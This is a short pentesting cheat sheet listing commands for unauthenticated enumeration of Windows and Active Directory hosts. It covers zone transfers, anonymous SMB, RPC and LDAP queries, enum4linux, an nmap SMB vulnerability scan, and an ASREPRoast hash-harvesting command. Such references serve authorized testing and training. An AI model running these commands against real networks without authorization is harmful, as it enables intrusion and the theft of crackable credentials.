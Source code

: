# Windows 

## Enumeration without credentials
### DNS zone transfer

	host -l domain.name dnsserver
	
	dig axfr domain.name @dnsserver
	
	dnsrecon -d domain.name -t axfr
	
### SMB Anonymous Shares

	smbclient -L //server
	
### Anonymous RPC

	rpcclient -U "" <host or IP>
	
	enumdomusers
	as well as other ones, help for commands

### LDAP

	ldapsearch -h <host or IP> -p 389 -x -b 'dc=example,dc=com'
	
### Enum4linux

	enum4linux -a <host or IP>
	
### nmap 
        
	nmap -p 139,445 --script smb-vuln* <host or IP>
	
### ASREPRoast

Requires that you harvest a list of users first, from one of the above.

	GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
	
